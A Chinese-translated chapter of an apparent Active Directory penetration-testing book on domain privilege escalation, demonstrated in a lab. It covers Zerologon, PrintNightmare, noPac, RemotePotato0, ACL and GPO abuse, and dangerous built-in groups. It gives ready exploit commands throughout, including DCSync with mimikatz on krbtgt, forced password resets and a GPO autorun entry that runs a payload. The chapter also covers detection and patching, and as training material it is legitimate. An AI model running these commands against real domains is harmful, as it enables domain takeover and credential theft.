


# 第六章：域权限提升

攻击者在目标域中需要提升权限的概率很高。我们已经讨论过为何不会涉及主机权限提升的主题。然而，大多数概念是通用的。我们会检查是否有任何权限提升漏洞适用于目标环境。如果没有，那么下一步就是识别各种配置错误的 ACL 和 GPO，以及可能在 IT 人员操作或软件安装过程中无意中引入的过度分配组成员权限的用户。我们会在每个新发现的路径中重申这些活动。

本章从经典的点选式攻击示例开始。这再次强调了补丁管理在环境安全性中的关键作用。接下来，我们将讨论 ACL 配置错误和组策略滥用。检测这些提升路径的主要注意事项是，它们可能被隐藏，对于 IT 人员来说并不那么明显。此外，Active Directory 中有一些特定的安全组，其成员身份可能会导致不必要的后果。我们将逐一分析它们。最后但同样重要的是，从子域到父域的权限提升可能性。涉及 Microsoft SQL Server 和 AD CS 的权限提升将在后续章节中详细介绍。

本章将涵盖以下内容：

+   公共 Zero2Hero 漏洞

+   如何查找并利用 ACL 配置错误

+   通过操作 GPO 可以实现什么？

+   内建安全组复审，包括`DNSAdmins`

+   从林中的子域提升到父域，并进行**特权访问管理**（**PAM**）信任

# 技术要求

本章中，您需要访问以下内容：

+   至少 16GB 内存、8 个 CPU 核心，并且总空间至少为 55GB（如果要进行快照，需更多空间）的 VMware Workstation 或 Oracle VirtualBox

+   强烈推荐使用基于 Linux 的操作系统

+   安装了用于当前虚拟化平台插件的 Vagrant 和 Ansible

+   GOADv2 和 DetectionLab 项目

# Zero2Hero 漏洞

在本节中，我们将讨论能够在几分钟内提供域管理员级别访问权限的现有漏洞。在一个有定期补丁和漏洞管理的成熟环境中，找到这样的漏洞并不常见。然而，仍然有可能发生这种情况，检查一下也无妨。我们将从相对较旧的 Kerberos 中的 GoldenPAC 漏洞开始，讨论 Zerologon 的根本原因并进行利用，接着利用 PrintNightmare 和 noPAC 提升权限。我们还将简要介绍不同类型的“土豆”漏洞，并讨论错误的组成员身份分配如何导致完全的域接管。

## MS14-068

`MS14-068`是`MS11-013`的后继者，意味着这是一个 PAC 验证漏洞。攻击者能够通过添加特权组来修改现有的 TGT，而域控制器错误地验证了票证。这是即时发生的，因此域用户的组成员身份没有改变。我们利用这个漏洞所需的只是一组有效的域用户凭据，具有相应的 SID 和域控制器 FQDN。在漏洞被公布后，*bidord*发布了利用程序[1]。

注意

这个漏洞并非在实验室中引入的。可以在这里找到一个很好的逐步攻击指南：[`www.trustedsec.com/blog/ms14-068-full-compromise-step-step/`](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/)。

简洁地说，这是您需要针对未打补丁的域控制器运行的命令：

```
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <password>
```

因此，我们可以注入一个 TGT 票证并享受我们的新权限。

对 Kerberos 的攻击检测很困难，和往常一样。可以通过检查用户 SID 和帐户名称不匹配的事件 ID 4624 来捕获利用。此外，我们还可以检查以`512`、`513`、`518`、`519`或`520`结尾的 SID 的域组中的新用户。通常的建议同样适用：修补您的基础设施。在安装 KB 后，我们可以在事件 ID 4769 中检测到失败的利用尝试。

## Zerologon（CVE-2020-1472）

这个漏洞真是一场灾难。未经身份验证的攻击者能够通过破坏域控制器获得域管理员权限。漏洞在于颠覆 Netlogon 加密。`Netlogon`是用于登录请求验证、注册、认证和域控制器定位的服务。它使用 MS-NRPC 接口作为身份验证机制，而 MS-NRPC 本身使用自定义的不安全加密来连接到域控制器的 Netlogon 安全通道。协议漏洞是在 AES-CFB8 模式中重用静态的、零值的**初始化向量**（**IV**）。

注意

*Secura*的*Tom Tervoort*的原创研究，详细解释请参阅这里：[`www.secura.com/uploads/whitepapers/Zerologon.pdf`](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)。

Zerologon 有两种利用场景：**中继**[2]和**更改密码**。

要了解密码更改利用场景，这里总结了七个关键概念[3]。

简而言之，利用步骤如下：

1.  利用加密漏洞欺骗客户端凭据。

1.  忽略签名和封装。

1.  伪造调用以绕过身份验证，并进行无限次登录尝试。

1.  将帐户的密码更改为空。

1.  滥用空密码以获得域管理员权限。

1.  恢复计算机的密码，以确保域控制器之间的复制仍在工作。

现在让我们在实验室尝试利用这个漏洞。我们将扫描所有三个域控制器。我们有几个可供选择的漏洞利用，还有 Metasploit 模块（**auxiliary/admin/dcerpc/cve_2020_1472_zerologon**）。我将使用 Impacket 和*VoidSec*的漏洞[4]。此外，我建议在利用之前为 DC03 创建一个快照。在生产环境中运行这个漏洞利用可能会造成中断。如果你仍然这样做，请不要忘记恢复密码：

```
zerologon.py -t 192.168.56.12 -n MEEREEN
secretsdump.py -no-pass -just-dc essos.local/MEEREEN\$@192.168.56.12
```

利用的结果如下截图：


图 6.1 – 成功的 Zerologon 漏洞利用

为避免这种不愉快的情况，定期安装安全补丁 – 并且关键的，立即安装。

## PrintNightmare（CVE-2021-1675 & CVE-2021-34527）

漏洞的名称可能暗示引入它的服务。你猜对了 – 我们的好朋友**打印池服务**。Spooler 使用了三个 RPC 协议：`MS-RPRN`、`MS-PAR` 和 `MS-PAN`。我们对前两个协议感兴趣。总的来说，漏洞存在于允许用户安装远程驱动程序的功能中。我们需要从服务器可访问的 SMB 共享来托管我们的恶意 DLL。客户端创建一个带有攻击者 DLL 路径的对象，并将其传递给另一个对象，然后由`RpcAddPrinterDriverEx`加载。此外，我们需要通过在服务器上设置`dwFileCopyFlags`中的一些位来绕过`SeLoadDriverPrivilege`验证。然后，DLL 将被加载，并且可以在这里找到：**C:\Windows\System32\spool\drivers\x64\3**) 和这里 (`C:\Windows\System32\spool\drivers\x64\3\Old\{id}`。根据协议，*StanHacked*[5]发现了一些条件。如果目标拒绝远程连接，这个漏洞利用可以用于本地权限提升，但只有在启用**点对点打印**策略时才能使用。

对于利用，我们可以使用由*cube0x0*[6]编写的漏洞利用、Mimikatz 中的一个模块，或者 Metasploit 模块。首先，我们需要使用`CrackMapExec`检查 Spooler 服务是否正在运行：

```
crackmapexec smb 192.168.56.10-12 -M spooler
```

CrackMapExec 执行的输出如下：


图 6.2 – Spooler 服务枚举

然后，我们可以对目标运行 Metasploit 中的一个漏洞利用。这个模块有一个预构建的检查，并且需要标准域用户凭据才能成功利用。它们没有标记为强制选项，但没有它们，漏洞利用会失败，至少对我来说是这样：


图 6.3 – 成功的 PrintNightmare 漏洞利用

微软花了一些时间发布正确的修复。最可靠的缓解措施是在可能的情况下完全禁用 Spooler 服务。

## sAMAccountName 伪装和 noPac（CVE-2021-42278/CVE-2021-42287）

此攻击是两个漏洞的组合。第一个漏洞，CVE-2021-42278（名称冒充），是因为没有验证过程确保计算机账户的名称末尾有$符号。第二个漏洞，CVE-2021-42287（KDC 欺骗），利用了在 S4U2Self 请求票证时，如果域控制器未能找到计算机名称，搜索将会再次进行，并在计算机名称后添加$符号。为了利用这些漏洞，我们需要未修补的域控制器，一个有效的域用户账户，以及一个大于 0 的机器账户配额。

注意

*exploitph* 发表了很好的逐步研究：[`exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.xhtml`](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.xhtml)。

借助`CrackMapExec`模块，我们可以查找域中的机器配额并检查域控制器是否存在`noPac`漏洞：

```
crackmapexec ldap 192.168.56.10 -u 'jaime.lannister' -p 'cersei' -d sevenkingdoms.local -M MAQ
crackmapexec smb 192.168.56.10 -u 'jaime.lannister' -p 'cersei' -d sevenkingdoms.local -M nopac
```

执行结果如下所示截图：


图 6.4 – 使用 CrackMapExec 进行 MAQ 和漏洞检查

注意

手动利用步骤已在此实验室演练中详细描述：[`mayfly277.github.io/posts/GOADv2-pwning-part5/#samaccountname-nopac`](https://mayfly277.github.io/posts/GOADv2-pwning-part5/#samaccountname-nopac)。

利用这些漏洞有六个步骤：

1.  使用`addcomputer.py`或`Powermad`创建计算机账户。

1.  使用`Powerview`或`addspn.py`清除创建或控制的机器账户的 SPN 属性。

1.  将创建或控制的机器账户的`sAMAccountName`属性更改为域控制器的名称，但末尾不加`$`符号。

1.  请求该机器账户的 TGT。

1.  将创建或控制的机器账户的`sAMAccountName`属性恢复为原始名称或其他任何值，但不能是域控制器的名称。

1.  通过展示获取的 TGT 请求带有`S4U2self`的 TGS，然后使用它访问域控制器。

我们将使用由*cube0x0*编写的自动化利用工具[7]，该工具包含所有这些步骤：

```
noPac.exe -domain sevenkingdoms.local -user jaime.lannister -pass cersei /dc kingslanding.sevenkingdoms.local /mAccount vinegrep /mPassword vinegrep /service cifs /ptt
```

结果如下所示截图：


图 6.5 – noPac 成功利用

我们还可以从 Linux 机器利用此漏洞，使用 Python 编写的利用工具[8]：

```
python3 sam_the_admin.py "essos.local/khal.drogo:horse" -dc-ip 192.168.56.12 -shell
```

执行结果如下所示截图：


图 6.6 – sam-the-admin noPac 漏洞利用版本工作中

最好的缓解措施是安装更新（`KB5008102`，`KB5008380`，和**KB5008602**）。此外，我们可以监控事件 ID 4662，`SAM Account Name`，已更改，以检测可能的利用尝试。

## RemotePotato0

`Potato`在漏洞名称中总是与伪装和**本地特权利用**（**LPE**）相关，如`Hot`、`Lonely`、`Rotten`、`Juicy`、`Rogue`、`Sweet`、`God`，或者是新发现的**本地` `potato 风味**[9]。

注释

顺便说一下，如果你对不同的 potato 风味感到困惑，可以参考这篇不错的博客文章：[`jlajara.gitlab.io/Potatoes_Windows_Privesc`](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)。

这里的想法是触发登录的高权限用户的身份验证，并将其中继到域控制器。成功的漏洞利用要求最初访问与高权限用户登录的相同主机。SMB 和 LDAP 签名未启用。

漏洞利用要求如下：

+   攻击者需要在计算机上加入“远程桌面管理”组

+   “域管理员”组的成员必须在该机器上以交互方式登录

在 GOADv2 实验室中，此漏洞不可利用，然而，在 DetectionLab 中它仍然有效。漏洞利用代码可在此处获取[10]。我使用了来自 DetectionLab 的域控制器和交换服务器。在一台 Kali 机器上，我启动了`ntlmrelayx`，然后通过 PSRemote 会话在交换服务器上运行了漏洞利用：

```
sudo impacket-ntlmrelayx -t ldap://192.168.56.102 --no-wcf-server --escalate-user vinegrep
```

然后，我在交换服务器上运行了漏洞利用：

```
RemotePotato0.exe -m 0 -r 192.168.56.100 -p 9998 -s 1
```

漏洞利用的结果见下图：


图 6.7 – RemotePotato0 漏洞利用执行

结果，我们可以看到我们的用户已被添加到**企业管理员组**：


图 6.8 – RemotePotato0 成功的中继和 shell

微软在 2022 年 10 月的补丁更新中悄悄修复了此漏洞。由于 NTLM 身份验证设置了`SIGN`标志，LDAP 中继场景已不再存在。如果我们尝试在 GOADv2 实验室中复制该攻击，可以确认这一点：



图 6.9 – RemotePotato0 利用失败

这也得到了我们`ntlmrelayx`输出的确认：


图 6.10 – 中继未能工作，漏洞已修复

在接下来的部分中，我们将讨论 ACL 和 ACE 的概念以及不同的恶意用途方法。

# ACL 滥用

**访问控制列表（ACL）滥用**为攻击者提供了独特且几乎无法被检测到的特权提升、横向移动和无恶意软件持久化的方法。

注释

关于这个主题，一些最著名和全面的研究由*SpectreOps*提供([`specterops.io/wp-content/uploads/sites/3/2022/06/an_ace_up_the_sleeve.pdf`](https://specterops.io/wp-content/uploads/sites/3/2022/06/an_ace_up_the_sleeve.pdf))。我们将在这里和下一章中引用其中的部分研究。

我们将从基本理论作为介绍开始。Active Directory 中的每个对象都有一个安全描述符。每个对象都有相关的**访问控制实体**（**ACEs**）列表，这些列表创建了称为**自由访问控制列表**（**DACL**）和**系统访问控制列表**（**SACL**）的两个列表。ACEs 定义了哪些安全主体对对象具有权限。SACL 具有很强的检测潜力，因为它可以用于审计访问尝试。对象所有者可以修改 DACL。当我们谈论域对象时，我们关注的是用户、组、计算机、域和 GPO 对象。理解的最后一个重要概念是继承。对于所有具有`AdminCount=0`的对象，默认启用继承，这意味着如果我们将 ACE 应用于 OU 或容器，它将应用于其中的所有对象。

要在域中查找配置错误的 ACL，我们可以使用各种工具，例如 PowerView 或 BloodHound 中的 ACLScanner。从攻击者的角度来看，这些权限看起来很有前途：`GenericAll, WriteDacl**, **GenericWrite (Self + WriteProperty)**, `WriteOwner 和 AllExtendedRights` **(****DS-Replication-Get-Changes(All)**, **User-Force-Change-Password)`。

可以在这里找到 ACL 滥用的综合思维导图以及命令示例[11]。我们将逐一讨论它们，以讨论滥用可能性：


图 6.11 – ACL 滥用思维导图

正如我们在思维导图上看到的，最强大的权限是`GenericAll`。它为攻击者打开了各种滥用选项。`ReadLAPSPassword` 属性在*第四章*中已经讨论过。对于计算机和用户应用的`WriteProperty` 权限可以导致**影子凭据攻击**，这将在稍后的*第八章*中进行讨论，因此在即将到来的部分中没有提到。

一个稍微不寻常的特例与`ReadGMSAPassword` ACL 滥用有关。攻击者需要控制列在目标对象的`msDS-GroupMSAMembership` ACL 中的对象。简而言之，这是允许查询 gMSA 密码的对象列表。

## 组

从攻击者的角度来看，如果攻击者控制了组上的以下 ACL 之一（`GenericAll**, **GenericWrite**, **Self**, **WriteProperty` 或 **AllExtendedRights**），则可以将对象添加到组中。`WriteOwner` 权限允许攻击者获得组的所有权。如果还控制了`WriteDacl`，则可以结合这两个权限，并将`GenericAll` 权限授予自身，从而有效地获得对组的完全控制。我们将在`sevenkingdoms`域中执行扫描，以检测配置错误，借助`PowerView` 的帮助：

```
Invoke-ACLScanner -Domain sevenkingdoms.local
```

结果如下截图所示：


图 6.12 – tywin.lannister 在小委员会组上拥有 WriteDacl 权限

为了滥用`WriteDacl`特权，我们需要为`tywin.lannister`添加对该组的完全控制权限，然后将其添加到该组。我们可以通过两条 PowerView 命令来实现：

```
Add-DomainObjectAcl -TargetIdentity "Small Council" -PrincipalIdentity tywin.lannister -Domain sevenkingdoms.local -Rights All -Verbose
Add-DomainGroupMember -Identity "Small Council" -Members tywin.lannister -Verbose
```

前述命令的结果如下图所示：


图 6.13 – tywin.lannister 将自己添加到小委员会组

该组的`WriteProperty`权限允许攻击者将任何主体添加到该组，但`Self`权限仅允许对象本身被添加到该组。

## 计算机

当计算机对象的特定权限被控制时，最常见的利用场景是 Kerberos**基于资源的受限委托**（**RBCD**）。要执行 Kerberos RBCD，攻击者需要控制以下权限之一：`GenericAll`、`GenericWrite`、`Self`或`WriteProperty`，这些权限位于`ms-AllowedToActOnBehalfOfOtherIdentity`属性上。`Service-Principal-Name`属性上的`WriteProperty`权限将允许对手执行 SPN 劫持攻击。该场景涉及**Kerberos 受限委托**（**KCD**）滥用。简而言之，攻击者通过 KCD 攻陷服务器，并且同时拥有目标服务器上`WriteSPN`（**WriteProperty on Service-Principal-Name**）权限，以及列在受害服务器的受限委托配置中的权限。然后，攻击者会从第二台服务器中移除 SPN 并将其添加到目标服务器上，执行完整的 S4U 攻击。接着，他们会编辑票据的 SPN 并传递。以我们实验室的示例为例，可能出现以下情况：一名攻击者攻陷了配置了 KCD 的`Castelblack`服务器，该服务器的受限委托配置为`Winterfell`。最终目标是`Legit-PC`，攻击者在此拥有`WriteSPN`权限。首先，将`winterfell`的 SPN 添加到`Legit-PC`。然后，针对相同的 SPN 请求票据，并使用 Rubeus 的`tgssub`命令编辑票据的 SPN，使其指向 Legit-PC 服务。

注意

原始研究已发布在[`www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/`](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)，执行 SPN 劫持的命令集合可以在此找到：[`www.thehacker.recipes/ad/movement/kerberos/spn-jacking`](https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking)。

## 用户

如前所述，`GenericAll` 权限将授予对对象的完全控制。这里讨论的所有攻击路径都是由于一组特定的受控权限而可能实现的。`GenericWrite` 权限允许攻击者通过更改密码而无需知道当前密码来接管用户帐户。`WriteDacl` 权限允许攻击者授予自己对用户对象的完全控制。`GenericWrite` 或 `WriteProperty` 根据属性本身的不同，开启了某些攻击途径。该属性可以是登录脚本属性（`scriptPath` 或 **msTSInitialProgram**）、`Service-Principal-Name` 或 `userAccountControl` 属性。后两者将允许我们执行 `Targeted Kerberoasting` 和 `Targeted AS-REP Roasting`。我使用 ADSI 编辑器并将 `WriteProperty` 权限添加到 `jaime.lannister` 上，通过 `lord.varys` 用户对象。现在，使用 PowerView 进行枚举并确认：


图 6.14 – jaime.lannister 对 lord.varys 拥有 WriteProperty 权限

我们的第一次攻击将是针对 Kerberoasting。其思路是设置用户的 SPN，获取 Kerberoast 哈希值，并清除 SPN 以掩盖痕迹。可以通过以下 PowerView 命令实现：

```
Set-DomainObject -Identity 'lord.varys' -Set @{serviceprincipalname='notexist/ROAST'}
Get-DomainUser 'lord.varys' | Get-DomainSPNTicket | fl
Set-DomainObject -Identity 'lord.varys' -Clear ServicePrincipalName
```

前述命令的结果如下图所示：


图 6.15 – 成功的针对 lord.varys 用户的 Kerberoasting 攻击

针对 AS-REP 烤制攻击基于我们对 `userAccountControl` 属性的控制，因此我们可以将其更改为 **不需要 Kerberos 预认证**。我将使用 PowerView 和 Rubeus 演示此过程：

```
Set-DomainObject -Identity lord.varys -XOR @{useraccountcontrol=4194304} -Verbose
Rubeus.exe asreproast
Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
```

成功的攻击如下图所示：


图 6.16 – 成功的针对 lord.varys 用户的 AS-REP 烤制攻击

最著名的滥用向量是我们对用户对象拥有 `AllExtendedRights` 或 `User-Force-Change-Password` 权限，这意味着我们可以在不知道当前密码的情况下重置用户密码。这个途径在我们的实验室中演示过：


图 6.17 – tywin.lannister 可以重置 jaime.lannister 用户的密码

以下 PowerView 命令将完成此操作：

```
$username = 'sevenkingdoms\tywin.lannister'
$password= ConvertTo-SecureString 'powerkingftw135' -AsPlainText -Force
$auth = New-Object System.Management.Automation.PSCredential $username, $password
$newpassword = ConvertTo-SecureString 'Qwerty123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'sevenkingdoms\jaime.lannister' -AccountPassword $newpassword -Credential $auth -Verbose
```

结果如下图所示：


图 6.18 – tywin.lannister 成功重置 jaime.lannister 用户的密码

最后，我们将看看可以用于完全接管整个域的最强 ACL。

## DCSync

`WriteDacl` 权限可以用于授予 DCSync 权限（**DS-Replication-Get-Changes 和 DS-Replication-Get-Changes-All**）。为了模拟攻击，我使用了 ADSI 编辑并添加了 `jaime.lannister` 的 **修改权限** 和 **写入所有属性** 权限。我们可以使用 PowerView 来确认更改已成功：

```
Find-InterestingDomainAcl | ?{$_.IdentityReferenceName -eq 'jaime.lannister'}
```

命令的结果如以下截图所示：


图 6.19 – jaime.lannister 用户具有对域对象的 WriteDacl 权限

我们可以授予用户 DCSync 权限，并通过以下命令执行攻击：

```
Add-DomainObjectAcl -Rights DCSync -TargetIdentity "DC=sevenkingdoms,DC=local" -PrincipalIdentity jaime.lannister -Verbose
mimikatz.exe "lsadump::dcsync /user:krbtgt /csv"
```

DCSync 攻击的结果如以下截图所示：


图 6.20 – 成功的 DCSync 攻击

在下一节中，我们将讨论滥用 GPO 的方法。这也与错误配置的 ACL 相关，但这次是针对 GPO。攻击者可以利用它进行横向移动、特权提升和在域中的持久性。该攻击的检测方法已经在 *第四章* 中详细介绍。

# 组策略滥用

服务器和客户端 Windows 操作系统具有多种可以启用、禁用或配置的参数。可以在每个对象上本地应用所需的参数（本地策略），但在域中，通过组策略推送配置更改到一组机器和/或用户会更加方便。这些策略集合被称为 **组策略对象**（**GPO**）。每个 GPO 都有其唯一的 GUID。策略文件存储在域的 SYSVOL 文件夹中。默认情况下，只有具有域管理员权限的用户才能创建和链接 GPO，但这些权限是可以委派的。GPO 需要链接到 **组织单位**、域或站点。链接过程需要理解另外两个概念：继承和强制。如果 GPLink 被强制执行，GPO 将应用于链接的 OU 及所有子对象，即使继承被阻止。如果 GPLink 没有强制执行，GPO 将应用于链接的 OU 及所有子对象，直到在任何后续 OU 中启用 **阻止继承**。还有一些方法可以更加逐步地应用 GPO，比如 WMI 筛选、安全筛选和链接顺序。但这些筛选选项在实际操作中很少使用。我们有两条主要的攻击途径，取决于我们获得的权限：创建并链接新的 GPO 或修改现有的 GPO。然而，当我们成功控制了 GPO 本身时，我们的行动自由度要大得多。以下是一些滥用场景示例，这仅仅是冰山一角，只要有一定的创意，几乎没有限制：

+   将用户添加到机器上的特权本地组

+   添加用户权限，如 SeDebugPrivilege、RDP 连接等

+   配置用户和/或计算机的登录/注销脚本

+   调整注册表键及其 DACL，包括自启动项，以实现持久化

+   配置用户或计算机的即时计划任务

+   恶意 `.msi` 文件安装

+   在机器上创建和编辑服务

+   部署一个新的恶意快捷方式

+   管理防火墙和 Windows Defender 设置（例如，排除路径）

在写作时，我们的实验室尚未引入易受攻击的 GPO，因此我在 `sevenkingdoms` 域中自己创建了一个，并为 `jaime.lannister` 用户授予了额外的权限。让我们开始实践。我们将从域中的 GPO 枚举及其应用的 ACL 开始。我们要寻找的 ACL 是我们常见的嫌疑人：`GenericAll`、`GenericWrite`、`WriteProperty`、`WriteDacl`、`WriteOwner` 以及 **AllExtendedWrite 和 WriteMember**。我们可以使用 PowerView 一行命令来执行此操作：

```
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll|GenericWrite|WriteProperty|WriteDacl|AllExtendedWrite|WriteMember|WriteOwner")}
```

在输出中，我们寻找具有 SID 且不在常见特权组和账户中的用户：


图 6.21 – 拥有 GenericAll 权限的 GPO 用户

接下来，我们查找具有 GPO 权限的用户账户、GPO 名称以及该 GPO 应用的 OU 名称和成员。可以通过 PowerView 来实现：

```
ConvertFrom-SID S-1-5-21-4243769114-3325725031-2403382846-1110
Get-DomainGPO -Identity "CN={776DB09D-32B9-4923-AADE-3056482455CB},CN=Policies,CN=System,DC=sevenkingdoms,DC=local"
Get-DomainOU -GPLink "{776DB09D-32B9-4923-AADE-3056482455CB}" | select distinguishedName
Get-DomainComputer -SearchBase "OU=Vale,DC=sevenkingdoms,DC=local" | select distinguishedName
```

以下截图显示了这些信息：


图 6.22 – GPO 信息

我们可以通过 `SharpGPOAbuse`[12]（由 *F-Secure* 编写）帮助将 `jaime.lannister` 添加到本地管理员组，从而提升权限：

```
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount jaime.lannister --GPOName "hack_me"
```

利用漏洞的结果如下所示：



图 6.23 – jaime.lannister 用户被添加到本地管理员组

另一个权限提升场景是查找可以在域中创建和链接策略的用户。仅创建策略是不够的，还需要将其链接到组织单位（OU）才能发挥实际作用。组策略容器存储在域中的 `CN=Policies`、`CN=System` 容器下。默认情况下，只有“域管理员”和“企业管理员”组才有权限将 GPO 链接到 OU、站点和域。这个权限的名称是 `Write gPlink`。为了在我们的实验室中引入上述场景，我将为 Group Policy Container 授予 `lord.varys CreateChild` 用户权限，并为 Vale OU 授予 `Write gPlink` 权限。这可以通过在 `ADSI Edit` 中调整对象属性的 **安全性** 标签页中的权限来完成，如下所示：


图 6.24 – lord.varys 用户拥有新权限

现在我们可以使用 PowerView 确认`lord.varys`用户确实拥有这样的权限。第一条命令将显示谁可以在域中创建组策略。第二条命令将识别每个在域内各 OU 的`GP-Link`属性上具有`WriteProperty`权限的用户：

```
Get-DomainObjectAcl -ResolveGUIDs -Identity "CN=Policies,CN=System,DC=sevenkingdoms,DC=local"| Where-Object {($_.ActiveDirectoryRights.ToString() -match "CreateChild")} | select securityidentifier
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ActiveDirectoryRights.ToString() -match "WriteProperty" -and $_.ObjectAceType -eq "GP-Link")} | select SecurityIdentifier, ObjectDN, ObjectACEType | fl
```

前述命令执行的结果如下面的截图所示：


图 6.25 – lord.varys 用户有权创建 GPO 并将其链接到 OU

现在我们可以通过**PowerShell 模块**或**组策略 MMC**来创建 GPO 并将其链接到 OU。PowerShell 模块的功能有限，但可以用于恶意目的，例如`Set-GPPrefRegistryValue`和`Set-GPRegistryValue`，这些命令允许你使用以下语法创建`Autorun`注册表项：

```
Set-GPRegistryValue -Name Legit_Updater -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName Legit -Type String -Value "cmd.exe /c payload.exe"
```

下一节将讨论通过加入特权安全组进行的权限提升。

# 其他权限提升途径

本节将重点介绍突出的权限提升途径。我们将演示将非特权域用户添加到各种内建域安全组中的后果。接着，我们将描述通过黄金票证和跨域票证从子域到父域的权限提升。最后，将解释 PAM 概念。

通常，特权用户、计算机和组需要定期审查。从 Active Directory 的角度来看，用户账户和计算机账户之间没有本质的区别。如果攻击者破解了属于特权组的计算机账户，这无疑会导致权限提升。

注意

原始研究由*XPN*提出：[`secarma.com/using-machine-account-passwords-during-an-engagement/`](https://secarma.com/using-machine-account-passwords-during-an-engagement/)。该方法的核心思想是提取机器账户的哈希值，并将其用于“传递哈希”攻击，具体操作可参见：[`pentestlab.blog/2022/02/01/machine-accounts/`](https://pentestlab.blog/2022/02/01/machine-accounts/)。

避免权限提升的主要预防措施是最小权限原则。如果你认为某个机器账户被破解，可以禁用该账户。同时，PowerShell 的`Reset-ComputerMachinePassword`命令可以重置机器账户的密码。

## 内建安全组

域中有几个*内置的安全组*，它们为特定任务预配置了权限。我们不打算讨论通常的高权限组，如*域*、*架构*或*企业管理员*。这些组在森林和域中的作用非常明确。我们将讨论一些很少提及的操作员安全组，如**帐户操作员**、**打印操作员**和**服务器操作员**。在实践部分，我们将演示权限提升的途径，在该途径中，属于**备份操作员**组的用户可以从域控制器中提取`ntds.dit`文件。此外，我们将利用`DNSAdmins`用户的成员身份（CVE-2021-40469）实现以`SYSTEM`身份的远程代码执行。

注意

关于组的良好文档由微软提供：[`learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)。

我们将从*帐户操作员*组（**S-1-5-32-548**）开始回顾。根据微软的说法，这个组被视为服务管理员组，他们的建议是将其保持为空。如果攻击者攻陷了一个属于该组的用户，他们将能够本地登录到域控制器并创建或修改帐户（尽管不能修改管理员帐户）。

*服务器操作员*组（**S-1-5-32-549**）的成员可以管理和维护域控制器。该组仅存在于域控制器上，默认情况下为空。该组的成员不能更改任何管理组的成员资格，但可以编辑和启动/停止服务，并备份和恢复文件。成为此组的成员为持久性提供了极大的机会，因为可以更改安装在域控制器上的二进制文件。

*打印操作员*组（**S-1-5-32-550**）的成员被允许加载驱动程序并管理连接到域控制器的打印机，以及本地登录。攻击者可以启用`SeLoadDriverPrivilege`并加载易受攻击的驱动程序，如`Capcom.sys`[13]。然而，自 Windows 10 版本 1803 以来，已不再可利用，因为`HKEY_Current_User`中的注册表引用不再被允许。

